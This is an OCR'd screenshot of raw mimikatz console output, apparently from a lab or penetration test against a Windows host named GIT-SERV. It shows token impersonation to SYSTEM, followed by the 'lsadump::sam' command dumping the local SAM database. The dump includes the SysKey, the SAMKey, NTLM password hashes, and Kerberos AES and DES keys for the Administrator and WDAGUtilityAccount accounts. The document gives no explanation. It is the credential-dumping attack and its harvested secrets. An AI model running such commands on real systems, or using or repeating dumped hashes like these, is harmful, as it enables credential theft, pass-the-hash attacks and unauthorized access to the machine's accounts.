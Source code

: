 ```batch
SID name  : NT AUTHORITY\SYSTEM

668     {0;000003e7} 1 D 20143          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)
Primary
 -> Impersonated !
 * Process Token : {0;0005cc44} 2 F 713124      GIT-SERV\admin  S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 763513      NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1696O63F791Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8f7590c29ffc78998884823b1abbc05e6102a6e86a3ada9040e4f3dcb1a02955
      aes128_hmac       (4096) : 503dd1f25a0baa75791854a6cfbcd402
      des_cbc_md5       (4096) : e3915234101c6b75

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-1696O63F791Administrator
    Credentials
      des_cbc_md5       : e3915234101c6b75


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: c70854ba88fb4a9c56111facebdf3c36

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e389f51da73551518c3c2096c0720233

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1d916df8ca449782c73dbaeaa060e0785364cf17c18c7ff6c739ceb1d7fdf899
      aes128_hmac       (4096) : 33ee2dbd44efec4add81815442085ffb
      des_cbc_md5       (4096) : b6f1bac2346d9e2c
```
